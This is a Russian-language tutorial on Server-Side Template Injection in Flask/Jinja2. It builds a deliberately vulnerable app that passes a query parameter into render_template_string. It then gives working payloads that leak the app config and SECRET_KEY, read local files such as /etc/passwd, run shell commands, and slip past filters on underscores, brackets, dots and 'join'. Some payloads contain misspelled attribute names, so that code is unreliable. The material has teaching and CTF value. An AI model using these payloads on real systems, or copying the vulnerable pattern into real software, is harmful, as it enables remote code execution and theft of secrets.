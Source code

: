Server Side Template Injections относится к типу Template Injection уязвимостей и возникает из-за неправильной обработки пользовательского ввода при встраивании его в шаблоны веб-приложений. Шаблон - это hml-скелет с выделенными полями, позволяющий этот шаблон обработать и сформировать конечный html.Механизмы шаблонов широко используются веб-приложениями для представления динамических данных пользователям.

В отличие от XSS, Template Injection может использоваться для прямой атаки на внутренние компоненты веб-серверов и получать удаленное выполнение кода.

Итак для примера создадим простое приложение на flask python, которое выглядит следующим образом:

```
from flask import *

app = Flask(__name__)

@app.route("/")
def home():
    return "Hello, World!"

if __name__ == "__main__":
    app.run(debug=True)
```

На странице просто выведется _Hello World!_ .

Теперь нам нужно добавить параметры, чтобы мы могли взаимодействовать с веб-приложением. Получим просто параметр переданный в запросе `request.args.get('name')`.

В данном случае параметр запроса name.

```
from flask import *

app = Flask(__name__)

@app.route("/")
def home():
    output = request.args.get('name')
    return f"Hello, {output}!"

if __name__ == "__main__":
    app.run(debug=True)
```

Но если будем делать запрос страницы без параметра name, то получим ошибку. Чтобы избежать этого, просто проверим output в if.

```
from flask import *

app = Flask(__name__)

@app.route("/")
def home():
    output = request.args.get('name')
    
    if output == None:
        return "name parameter not passed"  
    return f"Hello, {output}!"


if __name__ == "__main__":
    app.run(debug=True)
```

Отлично, теперь у нас есть приложение на flask, которое возвращает значение из get параметра и не вылетает. Теперь по уязвимости, она присутствует там, где шаблоны выполняются на стороне сервера и данные никак не обрабатываются или недостаточно обрабатываются.

Для рендеринга шаблона по строке используем render_template_string.

```
from flask import *

app = Flask(__name__)

@app.route("/")
def home():
    output = request.args.get('name')
    
    if output != None:
        output = render_template_string(f"Hello, {output}!")
        return output
    
    return "name parameter not passed"
        
if __name__ == "__main__":
    app.run(debug=True)
```

Запустим сервер и передадим в запросе name={{ 7 * 7 }}  
`(  http://localhost:port/?name={{ 7 * 7 }} )`, сервер вернет нам _Hello, 49!,_ что означает, что тут присутствует уязвимость.

Механизмы шаблонов используются очень широко, и они существуют для различных языков, таких как PHP, JS, Python, Go, Ruby ​​и многих других.

Основание того, почему они полезны, в том случае, если у вас большой веб-сайт или платформа, где много динамически изменяющихся элементов.

Например, netflix имеет тот же макет для своего контента, и изменяются только следующие вещи: заголовок, описание, баннер и некоторые другие мелкие детали, поэтому вместо создания целиком отдельной страницы для каждого фильма они просто подают данные в свои шаблоны , а затем шаблонизатор складывает все это вместе.




# Получение конфигурации

Это может быть полезно для получения ключа SECRET_KEY, который используется для подписи файлов cookie, при этом вы можете создавать и подписывать свои собственные файлы cookie.

Для шаблонизатора Jinja2, который работает с фласком используем {{ config }}




# Чтение локальных файлов

Это может быть использовано для чтения любого файла в системе и последующего выполнения может быть выполнен с помощью полезная нагрузка RCE. Также иногда пихают флажок на цтфках в папку с шаблонами {% include 'flag.txt'%}.

Пример полезной нагрузки альтернативы: {{''.__class__.__mro__[2].__ssubclasses__[40]('/etc/passwd').read() }}




# RCE

Наконец, удаленное выполнение команд.

Очевидно, что это самый серьезный и опасный процесс, который может быть осуществлен различными способами:

{{''.__class__.__mro__[1].__subsubclasses__()[1]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

Теперь мы можем взглянуть на обходные методы. Давайте начнем с метода обхода параметров.

Представьте, что у вас есть шаблонизатор, в данном случае jinja2, который принимает значение из параметра и удаляет из него все символы подчеркивания "`_`". Это ограничит нас от различных различных запросов, например мы не сможем обратиться {{__class__}}. Таким образом, этот обходной метод основан на идее, что только этот параметр проверяется на подчеркивание. Поэтому все, что нам нужно сделать, это передать подчеркивание через другой параметр и вызвать их из нашего шаблона.

Мы начнем с вызова атрибута класса из запроса (подчеркивания в данном запросе будут удаляться).  
`{{ request.__class__ }}`

мы удаляем «.» и используйте | attr, чтобы сообщить шаблону, что мы используем атрибуты запроса.  
`{{ request|attr("__class__") }}`

Далее перенаправляем все содержимое параметра attribute в функцию join, которая склеивает все значения вместе, в этом случае для создания класса они оно сконкатенируется.

`{{ request|attr(["__","class","__"]|join) }}`

Затем мы удаляем одно подчеркивание и просто умножаем одно на два, что позволяет python, чтобы создать новую строку из ранее указанных строк.  
`{{ request|attr(["_" * 2,"class","_" * 2]|join) }}`

Наконец, мы сообщаем paytload, чтобы получить подчеркивания от другого параметра, называемого «usc», и добавляем подчеркивания к другому параметру. В итоге у нас получится.

`http://localhost:port/?name={{ request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) }}&usc=_`

В следующем методе показывается обход блокировки скобок "[", "]".

`http://localhost:port/?name={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_`

`http://localhost:port/?name={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_`

Еще один вариант в случае, если заблокирована точка ".":  
`http://localhost:port/?name={{request|attr([%22_%22*2,%22class%22,%22_%22*2]|join)}}`

Наконец, метод обхода, который используется в случае, когда заблокированы "[", "]", "join" и "_":  
`http://localhost:port/?name={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_`

Это всего лишь базовые данные обхода, но их можно комбинировать и манипулировать для достижения результатов.